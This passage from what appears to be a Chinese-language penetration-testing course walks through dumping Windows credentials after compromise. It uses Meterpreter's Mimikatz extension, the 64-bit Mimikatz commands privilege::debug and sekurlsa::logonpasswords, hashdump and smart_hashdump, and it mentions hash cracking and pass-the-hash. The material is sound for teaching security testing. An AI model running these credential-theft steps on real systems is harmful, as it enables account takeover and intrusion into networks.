 ```java
meterpreter > load mimikatz
Loading extension mimikatz...[!] Loaded x86 Mimikatz on an x64 architecture.
[!] Loaded Mimikatz on a newer OS (Windows 7 (6.1 Build 7601, Service Pack 1).). Did you mean to 'load kiwi' instead?
Success.
meterpreter > help
...
Mimikatz Commands
=================
    Command           Description
    -------           -----------
    kerberos          Attempt to retrieve kerberos creds
    livessp           Attempt to retrieve livessp creds
    mimikatz_command  Run a custom command
    msv               Attempt to retrieve msv creds (hashes)
    ssp               Attempt to retrieve ssp creds
    tspkg             Attempt to retrieve tspkg creds
    wdigest           Attempt to retrieve wdigest creds
meterpreter > wdigest
```

由于 Metasploit 默认加载的是 32 位的 Mimikatz 程序，在 x64 机器上运行会导致 wdigest 读取密码失败了，只能获取密码哈希。

<Image alt="Drawing 19.png" src="https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEcKAPB1IAAF7z9fhxL0342.png"/>  
图 20 获取密码哈希

这种情况下，只能自己上传 64 位的 mimikatz 程序去获取明文密码，可以从[官方下载](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip)，运行 mimikatz 后通过以下两条命令，即可实现明文密码的获取：

```java
# 提升权限
privilege::debug 
# 搜索明文密码
sekurlsa::logonpasswords
```

<Image alt="Drawing 20.png" src="https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEcmAdN4ZAABC3Bc6dFs102.png"/>  
图 21 获取系统的账号与密码

除了 Mimikatz 外，还可以利用 hashdump 可导出当前机器的密码 Hash：

<Image alt="Drawing 21.png" src="https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEdGAWOPMAAFVZckrEAI446.png"/>  
图 22 利用 hashdump 可导出当前机器的密码 Hash

利用 smart_hashdump 还可以获取域内用户的密码 Hash，但需要 system 权限：

<Image alt="图片23.png" src="https://s0.lgstatic.com/i/image6/M00/03/97/Cgp9HWAfY5WAYTl7AALWnzNVoVk263.png"/>  
图 23 利用 smart_hashdump 导出域内用户的密码 Hash

如果只有 hash，那就需要结合 hashcat 来破解出明文密码，有时也可采用哈希传递攻击的方式去利用，即利用域内一些账号密码相同的情况，直接将密码哈希传递给其他计算机去尝试登录的攻击方式，可以不必花时间破解密码明文，Mimikatz 就支持哈希传递攻击。
